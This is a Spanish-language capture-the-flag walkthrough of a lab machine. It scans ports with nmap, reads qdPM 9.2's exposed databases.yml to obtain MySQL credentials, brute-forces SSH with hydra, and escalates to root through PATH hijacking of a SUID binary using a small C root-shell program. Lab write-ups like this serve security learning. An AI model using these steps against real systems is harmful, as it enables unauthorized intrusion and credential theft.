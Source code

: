 


# PortScan
______
```
# Nmap 7.93 scan initiated Fri Nov 10 16:42:38 2023 as: nmap -sCV -p22,80,3306,33060 -oN targeted 192.168.204.159
Nmap scan report for 192.168.204.159
Host is up (0.00074s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 0e77d9cbf80541b9e44571c101acda93 (RSA)
|   256 4051934bf83785fda5f4d727416ca0a5 (ECDSA)
|_  256 098560c535c14d837693fbc7f0cd7b8e (ED25519)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: qdPM | Login
|_http-server-header: Apache/2.4.48 (Debian)
3306/tcp  open  mysql   MySQL 8.0.26
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-09-25T10:47:29
|_Not valid after:  2031-09-23T10:47:29
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26
|   Thread ID: 41
|   Capabilities flags: 65535
|   Some Capabilities: Speaks41ProtocolOld, LongColumnFlag, SupportsCompression, Support41Auth, Speaks41ProtocolNew, FoundRows, SupportsTransactions, IgnoreSi
gpipes, IgnoreSpaceBeforeParenthesis, InteractiveClient, LongPassword, SwitchToSSLAfterHandshake, ODBCClient, SupportsLoadDataLocal, ConnectWithDatabase, Dont
AllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 3bnP)\x17D3\x01\x03X6S<+blTX[
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi
```


# Web Site
___
![[Pasted image 20231110174213.png]]

Tendríamos un **qdPM** con versión **9.2**, sí buscamos en **exploit-db,** encontraríamos este ["exploit"](https://www.exploit-db.com/exploits/50176) que nos indica qué en esta versión sé suele exponer la contraseña de la **DB** en esta dirección:
```
http://<website>/core/config/databases.yml
```

![[Pasted image 20231110174747.png]]

Definitivamente, el recurso existe, nos lo descargamos en local para posterior ver el contenido qué está dentro.

![[Pasted image 20231110174853.png]]

# Conexión a la DB MySQL

Dentro tiene lo qué parece ser el nombre de usuario para acceder a la DB **MySQL** y la **contraseña**, comprobamos esto.
```bash
mysql -u qdpmadmin -h 192.168.204.159 -p
```

Una vez pongamos la contraseña, veremos qué definitivamente hemos logrado entrar a la **DB MySQL.**

Ahora nos interesaría ver las bases de datos existentes, las tablas & el contenido dentro de las columnas qué nos interesa, llegando así a encontrar posibles credenciales del sistema.

![[Pasted image 20231110180000.png]]

Encontramos lo qué parecen ser claves en **base64** de los mismos usuarios que logramos ver en la DB.

Por lo qué se me ocurre desconvertir las claves en **base64** & intentar conectarme a todos los usuarios con esas claves, pero podríamos automatizarlo mediante un ataque de fuerza bruta con Hydra, metiendo las credenciales en archivos de texto, es decir, meter los usuarios en un archivo y las contraseñas desconvertidas en otras, tal que así:

![[Pasted image 20231110180302.png]]

Para ahora con **hydra** usando estos dos diccionario intentar conectarnos mediante fuerza bruta.

```bash
hydra -L users.txt -P passwords.txt ssh://192.168.204.159
```

Reportándonos así la clave válida para uno de los usuarios.

![[Pasted image 20231110180404.png]]

Así qué ahora podríamos conectarnos a través de **SSH** a éste usuario.

![[Pasted image 20231110180443.png]]


# Escalada de Privilegios

Buscando en la máquina archivos con permisos **SUID**.
```bash
find / -perm -4000 2>/dev/null
```

Encontraríamos un ejecutable con permisos **SUID** Root.

![[Pasted image 20231110180654.png]]

qué indagando sobre este ejecutable con strings.
```bash
strings /opt/get_access
```

![[Pasted image 20231110180921.png]]

Vemos qué hace un **cat** a la ruta "**/root/system.info**", el problema es qué está usando la ruta relativa del **cat** y no la absoluta, por lo qué podríamos llevar a cabo un **Path Hijacking**.

Para ello debemos ir a un directorio donde tengamos permisos de escritura, por ejemplo a "**/tmp/**", montarnos el siguiente script en C.

Creamos el .C.
```python
nano cat.c
```

Que dentro tendrá el siguiente código
```python
#include <unistd.h>

int main(void) {
    setuid(0);
    setgid(0);
    char *binaryPath = "/bin/bash";
    char *args[] = {binaryPath, "-p", NULL};
    
    execv(binaryPath, args);
    return 0;
}
```

y lo compilamos
```bash
gcc cat.c -o cat
```

Ahora tocaría modificar la variable de entorno del sistema para qué que el ejecutable no llegue a la ruta real del **cat**, y llegue a la ruta donde lo tengamos nosotros, es decir "**/tmp/**".
```bash
export PATH=/tmp/:$PATH
```

De forma que cuando volvamos a ejecutar el "**get_access**" leerá nuestro **cat**, otorgándonos así una bash con privilegios como **Root**.

![[Pasted image 20231110182015.png]]